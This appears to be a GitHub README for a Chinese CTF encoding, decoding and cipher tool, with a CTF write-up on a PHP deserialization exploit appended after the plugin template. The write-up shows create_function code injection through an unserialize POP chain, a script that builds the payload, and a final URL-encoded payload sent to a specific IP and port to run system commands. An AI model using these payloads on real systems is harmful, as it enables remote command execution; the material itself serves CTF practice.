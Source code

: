# CTF-Tools

![1](https://github.com/qianxiao996/CTF-Tools/blob/master/1.jpg)

一款CTF编码、解码、加密、解密工具。

##### 安装依赖：

- pip install base36
- pip install base58
- pip install base91
- py3base92-master\py3base92_setup>install.bat 到github上找到py3base92下载，执行install.bat
- pip install pybase62
- pip install PyQt5
- pip install pyperclip
- pip install wheel
- pip install F:\download\gmpy2-2.0.8-cp39-cp39-win_amd64.whl(我的python是3.9版本，所以下载的是cp39,https://www.lfd.uci.edu/~gohlke/pythonlibs/ 到这里搜索下载)


##### 支持的编码解码:

- [x] URL-UTF-8            
- [x] URL-GB2312
- [x] Unicode
- [x] Escape(%U)
- [x] HtmlEncode
- [x] ACSII
- [x] Base16
- [x] Base32
- [x] Base64
- [x] Str->Hex
- [x] Shellcode
- [x] qwerty(键盘密码)
- [x] 图片转base64
- [x] 图片转hex

##### 支持的加密解密:

- [x] Rot13
- [x] 凯撒密码
- [x] 栅栏密码
- [x] 栅栏密码(W型)
- [x] 培根密码
- [x] 摩斯密码
- [x] 移位密码
- [x] 云影密码
- [x] 当铺密码
- [x] 维尼吉亚密码
- [x] 埃特巴什码
- [x] base64转图片

##### 进制转换:

- [x] 2->8
- [x] 2->10
- [x] 2->16
- [x] 8->2
- [x] 8->10
- [x] 8->16
- [x] 10->2
- [x] 10->8
- [x] 10->16
- [x] 16->2
- [x] 16->8
- [x] 16->10
- [x] 任意进制转换

##### 在线编码网站:

- [x] Jsfuck
- [x] AAencode
- [x] XXencode
- [x] JJencode
- [x] UUencode
- [x] Brainfuck/Ook!
- [x] 敲击码
- [x] 猪圈密码
- [x] 综合网站
- [x] Rabbit

......

##### 插件功能:

须在Plugins目录下的Plugins.json写入插件名称和文件名。

插件模板

```
def run(source_text):
    #source_text 为前端输入的源文本字符串
    #插件测试模板，返回一个加密解密结果即可
    result='插件测试'
    return result
```



php的神奇函数
create_function；如下代码就能调用系统命令ls /

```php
<?php
echo 'Hello World!';
create_function('',";}system('ls /');//")
?>
```


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class func
{
        public $mod1="1";
        public $mod2="2";
         public $key="3";
        public function __destruct()
        {        
                unserialize($this->key)();
                $this->mod2 = "welcome ".$this->mod1;
                  
        } 
}

class GetFlag
{        public $code;
         public $action;
        public function get_flag(){
            $a=$this->action;
            $a('', $this->code);
        }
}


$str = 'O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D';
echo urldecode($str);
unserialize(urldecode($str));

?> 

```





首先利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链：

```php

<?php
class func
{
    public $key;
    public function __construct()
{
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}


class GetFlag
{
    public $code;
    public $action;
    public function __construct()
{
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

```

成功执行了命令，flag在根目录，cat /flag 就OK了：

最终payload：

http://111.74.9.109:10069/?0=O%3A4%3A%22func%22%3A3%3A%7Bs%3A4%3A%22mod1%22%3BN%3Bs%3A4%3A%22mod2%22%3BN%3Bs%3A3%3A%22key%22%3Bs%3A126%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A24%3A%22%3B%7Dsystem%28%27cat+%2Fflag%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

图片
